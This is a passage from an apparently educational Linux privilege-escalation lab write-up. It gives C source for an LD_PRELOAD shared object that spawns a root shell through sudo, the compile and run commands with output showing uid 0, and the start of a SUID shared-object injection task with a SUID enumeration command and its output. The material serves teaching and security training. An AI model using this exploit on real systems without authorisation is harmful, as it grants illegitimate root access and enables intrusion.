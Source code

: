 **Exploitation**

1. Open a text editor and type:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

2. Save the file as `x.c`
3. In command prompt type: `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
4. In command prompt type: `sudo LD_PRELOAD=/tmp/x.so apache2`
5. In command prompt type: `id`

~~~
TCM@debian:~$ gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
TCM@debian:~$ sudo LD_PRELOAD=/tmp/x.so apache2
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
~~~


# [Task 11] Privilege Escalation - SUID (Shared Object Injection)

**Detection**

Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.

~~~
TCM@debian:~$ find / -type f -perm -04000 -ls 2>/dev/null
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18 13:02 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs
TCM@debian:~$ 
~~~
